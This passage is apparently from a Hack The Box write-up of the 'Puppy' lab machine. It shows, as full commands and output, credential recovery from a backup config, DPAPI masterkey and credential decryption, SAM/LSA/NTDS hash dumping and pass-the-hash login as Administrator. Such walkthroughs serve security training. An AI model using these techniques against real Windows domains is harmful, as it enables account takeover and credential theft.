d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows
```

The directory contained a `zip-archive` called `site-backup-2024-12-30.zip`.

```shell
*Evil-WinRM* PS C:\Backups> dir


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
```

We downloaded the file for further investigation.

```shell
*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip
                                        
Info: Downloading C:\Backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip
                                        
Info: Download successful!
```

## Privilege Escalation to steph.cooper
### Investigating site-backup-2024-12-30.zip

The archive contained a `backup` of a `website`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ unzip site-backup-2024-12-30.zip 
Archive:  site-backup-2024-12-30.zip
   creating: puppy/
  inflating: puppy/nms-auth-config.xml.bak  
   creating: puppy/images/
  inflating: puppy/images/banner.jpg  
  inflating: puppy/images/jamie.jpg  
  inflating: puppy/images/antony.jpg  
  inflating: puppy/images/adam.jpg   
  inflating: puppy/images/Levi.jpg   
   creating: puppy/assets/
   creating: puppy/assets/js/
  inflating: puppy/assets/js/jquery.scrolly.min.js  
  inflating: puppy/assets/js/util.js  
  inflating: puppy/assets/js/breakpoints.min.js  
  inflating: puppy/assets/js/jquery.min.js  
  inflating: puppy/assets/js/main.js  
  inflating: puppy/assets/js/jquery.dropotron.min.js  
  inflating: puppy/assets/js/browser.min.js  
   creating: puppy/assets/webfonts/
  inflating: puppy/assets/webfonts/fa-regular-400.eot  
  inflating: puppy/assets/webfonts/fa-solid-900.svg  
  inflating: puppy/assets/webfonts/fa-solid-900.ttf  
  inflating: puppy/assets/webfonts/fa-solid-900.woff2  
  inflating: puppy/assets/webfonts/fa-brands-400.svg  
  inflating: puppy/assets/webfonts/fa-solid-900.woff  
  inflating: puppy/assets/webfonts/fa-solid-900.eot  
  inflating: puppy/assets/webfonts/fa-regular-400.ttf  
 extracting: puppy/assets/webfonts/fa-regular-400.woff2  
  inflating: puppy/assets/webfonts/fa-regular-400.svg  
  inflating: puppy/assets/webfonts/fa-brands-400.eot  
  inflating: puppy/assets/webfonts/fa-brands-400.woff  
  inflating: puppy/assets/webfonts/fa-brands-400.ttf  
  inflating: puppy/assets/webfonts/fa-brands-400.woff2  
  inflating: puppy/assets/webfonts/fa-regular-400.woff  
   creating: puppy/assets/css/
  inflating: puppy/assets/css/main.css  
   creating: puppy/assets/css/images/
  inflating: puppy/assets/css/images/overlay.png  
  inflating: puppy/assets/css/images/highlight.png  
  inflating: puppy/assets/css/fontawesome-all.min.css  
   creating: puppy/assets/sass/
  inflating: puppy/assets/sass/main.scss  
   creating: puppy/assets/sass/libs/
  inflating: puppy/assets/sass/libs/_vendor.scss  
  inflating: puppy/assets/sass/libs/_functions.scss  
  inflating: puppy/assets/sass/libs/_html-grid.scss  
  inflating: puppy/assets/sass/libs/_vars.scss  
  inflating: puppy/assets/sass/libs/_breakpoints.scss  
  inflating: puppy/assets/sass/libs/_mixins.scss  
  inflating: puppy/index.html
```

While checking the available files we found the `password` for `steph.cooper` inside `nms-auth-config.xml.bak`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Puppy/files/puppy]
└─$ cat nms-auth-config.xml.bak 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

| Password       |
| -------------- |
| ChefSteph2025! |

And since `steph.cooper` also had the `CanPSRemote` permission assigned, we were able to login using `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i puppy.htb -u 'steph.cooper' -p 'ChefSteph2025!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents>
```

## Enumeration (steph.cooper)

The user `steph.cooper` had no special permissions. So we moved on.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== ==============================================
puppy\steph.cooper S-1-5-21-1487982659-1829050783-2281216199-1107


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to System

### Data Protection API (DPAPI)

Our man `trustie_rity` came in clutch and catched a `Data Protection API (DPAPI) Blob` for the user `steph.cooper`.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\roaming\microsoft\credentials> gci -Hidden

    Directory: C:\Users\steph.cooper\appdata\roaming\microsoft\credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

We fired up `SharpDPAPI` to perform a complete `triage` of the user to see if we could catch some low-hanging fruits.

- [https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/SharpDPAPI.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/SharpDPAPI.exe)

```shell
*Evil-WinRM* PS C:\temp> .\SharpDPAPI.exe triage

  __                 _   _       _ ___
 (_  |_   _. ._ ._  | \ |_) /\  |_) |
 __) | | (_| |  |_) |_/ |  /--\ |  _|_
                |
  v1.11.3


[*] Action: User DPAPI Credential and Vault Triage

[*] Triaging Credentials for current user


Folder       : C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\

  CredFile           : DFBE70A7E5CC19A398EBF1B96859CE5D

    guidMasterKey    : {556a2412-1275-4ccf-b721-e6a0b4f90407}
    size             : 11068
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data

    [X] MasterKey GUID not in cache: {556a2412-1275-4ccf-b721-e6a0b4f90407}


Folder       : C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\

  CredFile           : C8D69EBE9A43E9DEBF6B5FBD48B521B9

    guidMasterKey    : {556a2412-1275-4ccf-b721-e6a0b4f90407}
    size             : 414
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Enterprise Credential Data

    [X] MasterKey GUID not in cache: {556a2412-1275-4ccf-b721-e6a0b4f90407}


[*] Triaging Vaults for the current user


[*] Triaging Vault folder: C:\Users\steph.cooper\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

  VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Name               : Web Credentials
    guidMasterKey    : {556a2412-1275-4ccf-b721-e6a0b4f90407}
    size             : 240
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      :
    [X] MasterKey GUID not in cache: {556a2412-1275-4ccf-b721-e6a0b4f90407}


[*] Triaging RDCMan Settings Files for current user

[*] Triaging KeePass ProtectedUserKey.bin files for current user


Folder       : C:\Users\steph.cooper\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-1487982659-1829050783-2281216199-1107


Folder       : C:\Users\steph.cooper\AppData\Roaming\Microsoft\Crypto\Keys\

    [!] de7cf8a7901d2ad13e5c67c29e5d1662_e473f673-c7a2-475f-b5ee-d10b20a30026 masterkey needed: {556a2412-1275-4ccf-b721-e6a0b4f90407}


SharpDPAPI completed in 00:00:00.1218834
```

As next step we focused on `downloading` and `decrypting` the `DPAPI Blob` offline.

- [https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary](https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary)

We already got the location for the `Blob` so we looked for the directory named like the `SID` (`S-1-5-21-1487982659-1829050783-2281216199-1107`) which contained the `file` (`556a2412-1275-4ccf-b721-e6a0b4f90407`) necessary to `decrypt` the `Masterkey`.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft> dir


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          3/8/2025   7:53 AM                Credentials
d---s-          3/8/2025   7:40 AM                Crypto
d-----          3/8/2025   7:40 AM                Internet Explorer
d-----          3/8/2025   7:40 AM                Network
d---s-          3/8/2025   7:40 AM                Protect
d-----          5/8/2021   1:20 AM                Spelling
d---s-         2/23/2025   2:35 PM                SystemCertificates
d-----         2/23/2025   2:36 PM                Vault
d-----          3/8/2025   7:52 AM                Windows
```

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect> dir


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         2/23/2025   2:36 PM                S-1-5-21-1487982659-1829050783-2281216199-1107
```

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> gci -Hidden


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred
```

With the `SID` in our pockets we `downloaded` the `DPAPI Blob` (`C8D69EBE9A43E9DEBF6B5FBD48B521B9`).

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\roaming\microsoft\credentials> download C8D69EBE9A43E9DEBF6B5FBD48B521B9
                                        
Info: Downloading C:\Users\steph.cooper\appdata\roaming\microsoft\credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 to C8D69EBE9A43E9DEBF6B5FBD48B521B9
                                        
Error: Download failed. Check filenames or paths: uninitialized constant WinRM::FS::FileManager::EstandardError
```

Next we downloaded the `file` (`556a2412-1275-4ccf-b721-e6a0b4f90407`) containing the `Masterkey`.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> download 556a2412-1275-4ccf-b721-e6a0b4f90407
                                        
Info: Downloading C:\Users\steph.cooper\appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 to 556a2412-1275-4ccf-b721-e6a0b4f90407
                                        
Error: Download failed. Check filenames or paths: uninitialized constant WinRM::FS::FileManager::EstandardError
```

Now we chained everything by specifying the `file` (`556a2412-1275-4ccf-b721-e6a0b4f90407`) and the `SID` (`S-1-5-21-1487982659-1829050783-2281216199-1107`) using the `password` of `steph.cooper` in order to `decrypt` the `Masterkey`.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

| Masterkey                                                                                                                          |
| ---------------------------------------------------------------------------------------------------------------------------------- |
| 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 |

With the `Masterkey` we then `decrypted` the `DPAPI Blob` (`C8D69EBE9A43E9DEBF6B5FBD48B521B9`) and received the `password` of `steph.cooper_adm`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ impacket-dpapi credential -f C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

| Username         | Password                |
| ---------------- | ----------------------- |
| steph.cooper_adm | FivethChipOnItsWay2025! |

Since `steph.cooper_adm` was part of the `Administrators` group on `Puppy` we were able to login and read the `root.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i puppy.htb -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents>
```
## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
41fecabaa9cbc4c217b8c986c8571a43
```

## Post Exploitation

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.184.6 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!' --sam --lsa --dpapi
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
SMB         10.129.184.6    445    DC               [*] Dumping SAM hashes
SMB         10.129.184.6    445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
SMB         10.129.184.6    445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.184.6    445    DC               DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[00:41:29] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                 secretsdump.py:1435
SMB         10.129.184.6    445    DC               [+] Added 3 SAM hashes to the database
SMB         10.129.184.6    445    DC               [+] Dumping LSA secrets
SMB         10.129.184.6    445    DC               PUPPY\DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
SMB         10.129.184.6    445    DC               PUPPY\DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
SMB         10.129.184.6    445    DC               PUPPY\DC$:des-cbc-md5:54e9a11619f8b9b5
SMB         10.129.184.6    445    DC               PUPPY\DC$:plain_password_hex:84880c04e892448b6419dda6b840df09465ffda259692f44c2b3598d8f6b9bc1b0bc37b17528d18a1e10704932997674cbe6b89fd8256d5dfeaa306dc59f15c1834c9ddd333af63b249952730bf256c3afb34a9cc54320960e7b3783746ffa1a1528c77faa352a82c13d7c762c34c6f95b4bbe04f9db6164929f9df32b953f0b419fbec89e2ecb268ddcccb4324a969a1997ae3c375cc865772baa8c249589e1757c7c36a47775d2fc39e566483d0fcd48e29e6a384dc668228186a2196e48c7d1a8dbe6b52fc2e1392eb92d100c46277e1b2f43d5f2b188728a3e6e5f03582a9632da8acfc4d992899f3b64fe120e13
SMB         10.129.184.6    445    DC               PUPPY\DC$:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
SMB         10.129.184.6    445    DC               dpapi_machinekey:0xc21ea457ed3d6fd425344b3a5ca40769f14296a3
dpapi_userkey:0xcb6a80b44ae9bdd7f368fb674498d265d50e29bf
SMB         10.129.184.6    445    DC               NL$KM:dd1ba5a033e7a0561c3fc3f58631ba091ac4d46a3c2afa1526063b93e0660f7a029ac72e5279c157d90cd3f61779ef3f7588a399c7e02b2756955c6b8581d0ed
SMB         10.129.184.6    445    DC               [+] Dumped 7 LSA secrets to /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_004053.secrets and /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_004053.cached
SMB         10.129.184.6    445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.184.6    445    DC               [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.129.184.6    445    DC               [+] Got 6 decrypted masterkeys. Looting secrets...
SMB         10.129.184.6    445    DC               [steph.cooper][CREDENTIAL] Domain:target=PUPPY.HTB - steph.cooper_adm:FivethChipOnItsWay2025!
```

```shell
┌──(kali㉿kali)-[~/Downloads]
└─$ netexec smb 10.129.184.6 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!' --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.129.184.6     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6     445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
SMB         10.129.184.6     445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.184.6     445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
SMB         10.129.184.6     445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.184.6     445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
SMB         10.129.184.6     445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
SMB         10.129.184.6     445    DC               [+] Dumped 10 NTDS hashes to /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_173424.ntds of which 9 were added to the database
SMB         10.129.184.6     445    DC               [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.184.6     445    DC               [*] cat /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_173424.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.129.184.6     445    DC               [*] grep -iv disabled /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_173424.ntds | cut -d ':' -f1
```

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
```

```shell
┌──(kali㉿kali)-[~/Downloads/puppy]
└─$ evil-winrm -i dc.puppy.htb -u Administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b      
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
